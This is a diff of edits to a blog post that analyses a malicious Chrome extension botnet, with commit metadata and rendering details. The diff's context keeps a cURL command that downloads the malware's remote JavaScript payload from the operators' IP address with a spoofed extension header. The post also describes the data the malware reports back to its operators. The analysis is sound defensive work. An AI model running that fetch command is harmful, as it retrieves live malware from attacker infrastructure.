

Before and after one commit to MaximeKjaer/kjaer.io, a Jekyll site: the page built from _posts/2016-07-06-extension-malware.md, in a window 1280 px wide and 900 px high, scrolled down 10389 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Incorporate Matthieu's feedback into the extension malware post

```diff
--- a/_posts/2016-07-06-extension-malware.md
+++ b/_posts/2016-07-06-extension-malware.md
@@ -157,7 +157,7 @@
 }
 {% endhighlight %}
 
-Exactly why it needs to add a timestamp to the <abbr title="Uniform Resource Locator">URL</abbr> and a custom header to the request is beyond me. All I know is that the server doesn't reply without them. I was able to simulate a such request with the following cURL command.
+I was able to simulate a such request with the following cURL command.
 
 {% highlight bash %}
 curl -o external.js --header "XYZ-Extension-Id: nogheblblcgkncmpggmikmcpnjdihgdd" http://104.131.35.136:9999/jsnew.php?id=22&r=1467883037000
@@ -298,7 +298,7 @@
 It sends three things back to the server:
 
 1. The <abbr title="Unique Identifier">UID</abbr>, a unique ID string that identifies the infected machine
-2. The extension ID, a string corresponding to the extension that
+2. The extension ID, a string corresponding to the extension that is reporting back (because there are multiple copies of the same extension available in the Chrome Webstore, and the malware operators might need to know which one you have).
 3. Whether the infected machine currently is signed into Facebook
 
 I'm taking it that the malware operators use this information to judge the exact size and activity of their botnet, as these are factors that determine its value on the black market.
@@ -306,9 +306,8 @@
 ### And potentially much more
 The extension is always on the lookout for a new version of the payload. Though I haven't witnessed it change, it could very well evolve and gain new capabilities.
 
-Since the malware has permission to "read and change all your data on the websites you visit", its operators could gain total control over everything that happens in your browser. They could potentially read your emails, steal all your login credentials, have you DDoS someone, mine Bitcoin, seed pirated content... You name it.
 
-Your local files are off-limit though, if that's of any consolation.
+Your local files are off-limit though, if that's of any consolation. Hurray, right?
 
 ## Taking the botnet down
 Though most of the Viralands extensions have been taken down from the Chrome Webstore now, that doesn't change anything for the 132,265 infected computers. To the best of my knowledge (I couldn't find anything confirming it though), an extension stays installed even after it has been removed from the Webstore, so every infected machine effectively stays infected.
@@ -330,7 +329,6 @@
 ## How can we prevent this in the future?
 I do not want to offer the conclusion that everyone should stay clear of all browser extensions. They're still immensely useful, and some of them actually do make for a safer browsing experience ([HTTPS Everywhere](https://chrome.google.com/webstore/detail/https-everywhere/gcbommkclmclpchllfjekcdonpmejbdp?hl=en), [uBlock Origin](https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm?hl=en), [LastPass](https://chrome.google.com/webstore/detail/lastpass-free-password-ma/hdokiejnpimakedhajhdlcegeplioahd)...). That being said, malware will always be a risk when you offer third-party software high levels of permissions. I'd like to propose a few ideas that could help reduce that risk.
 
-Google could start out by restoring trust in trustworthy extensions. One way of doing that would be to manually verify extensions, or vet the reputation of the developer.
 
 Open Source is also a great way of restoring trust: if an extension is open source, then maybe that could warrant a badge? There's still the problem of whether the open source code is what's being served in the extension, but there are ways of solving that too &mdash; off the top of my head I can suggest a GitHub integration that automatically builds and publishes the latest version of the code and then marks it as "verified as being open-source".
 
```
